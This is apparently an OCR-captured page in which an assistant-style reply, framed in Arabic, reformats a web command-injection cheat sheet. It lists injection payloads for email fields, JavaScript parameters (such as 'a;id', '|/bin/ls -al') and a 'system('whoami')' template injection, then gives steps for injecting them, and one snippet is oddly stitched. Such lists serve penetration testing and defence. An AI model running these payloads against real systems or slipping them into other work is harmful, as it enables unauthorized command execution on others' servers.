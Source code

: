 إليك تنظيم النقاط بشكل نصي عادي ومنظم:

---

### **Command Injection Techniques**

#### **1. Testing in Links**
- **Email Command Injection**:
  ```bash
  $command@mailbox.com
  `$command`@mailbox.com
  `command`@mailbox.com
  ```

#### **2. Parameter Found in JavaScript**
- **Command Injection Payloads**:
  ```bash
  a);id
  a;id
  a);id;
  a;id;
  a);id|
  a;id|
  a)|id
  a|id
  a)|id;
  a|id
  |/bin/ls -al
  a);/usr/bin/id
  a;/usr/bin/id
  ```

#### **3. JavaScript Command Injection**
- **System Command Execution**:
  ```bash
  ` ${
  @print
  (system('whoami'))} `
  ```

---

### **How to Use This Information**
1. **Email Command Injection**:
   - Test for command injection vulnerabilities in email fields by injecting commands.

2. **JavaScript Parameter Injection**:
   - Use the provided payloads to test for command injection vulnerabilities in JavaScript parameters.

3. **System Command Execution**:
   - Inject system commands in JavaScript contexts to execute arbitrary commands.

---
- https://sallam.gitbook.io/sec-88/web-appsec/command-injection
إذا كنت بحاجة إلى أي تعديلات إضافية، فلا تتردد في طلبها! 😊
